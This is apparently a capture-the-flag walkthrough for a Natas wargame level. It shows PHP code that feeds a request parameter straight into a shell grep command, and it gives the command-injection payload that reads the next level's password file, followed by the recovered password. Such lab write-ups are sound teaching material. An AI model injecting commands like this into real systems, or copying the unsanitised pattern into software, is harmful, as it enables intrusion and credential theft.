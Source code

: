 # Solution
## Enumeration
```php
<?  
$key = "";  
  
if(array_key_exists("needle", $_REQUEST)) {    $key = $_REQUEST["needle"];  
}  
  
if($key != "") {    passthru("grep -i $key dictionary.txt");  
}  
?>
```

This clearly shows us a command injection vulnerability
Test Payload:
```bash
;cat /etc/natas_webpass/natas9;
```
To get the level 10 password, simply change the file name to natas10:
```
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```